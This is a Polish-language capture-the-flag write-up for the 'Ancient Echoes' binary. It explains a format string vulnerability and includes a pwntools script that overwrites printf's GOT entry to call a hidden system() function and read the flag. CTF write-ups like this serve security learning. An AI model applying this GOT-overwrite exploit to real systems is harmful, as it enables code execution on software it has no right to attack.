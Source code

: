 # Ancient Echoes - writeup
## Overview
![](attachments/main.png)
\
po otworzeniu pliku w idzie jesteśmy od razu zobaczyć, podatność jaką jest format string vulnerability.\

![](attachments/checksec.png)
do tego nie ma aslr, więc kod będzie zawsze na takim samym adresie. Relro jest ustawione jako Partial,  więc będziemy w stanie nadpisać got. \
![](attachments/wild_magic.png)
\
możemy też znaleźć, że istnieje nigdzie nie wykorzystywana funkcja wild_magic, która wywołuje system z podaną komendą. 
## Exploitacja
skoro mamy dwukrotnie funkcje printf dzięki której jesteśmy w stanie nadpisać dane w goty, to musimy stworzyć taki payload, który jednocześnie nadpisze addres printf w goty do funkcji wykonującej system i odczyta flage z serwera.\
Zadziała to ponieważ argumentem funkcji system stanie się wtedy nasz payload.
kod:
```python
io = process("./ancient_echoes")

printf_got = 0x404038
admin_debug = 0x40121D

writes = {printf_got: admin_debug}

# payload = b"/bin/bash &&    "
payload = b"cat flag.txt && "
payload += fmtstr.fmtstr_payload(8, writes, numbwritten=len(payload), write_size="byte")

io.sendafter(b'!', payload)
io.interactive()
```

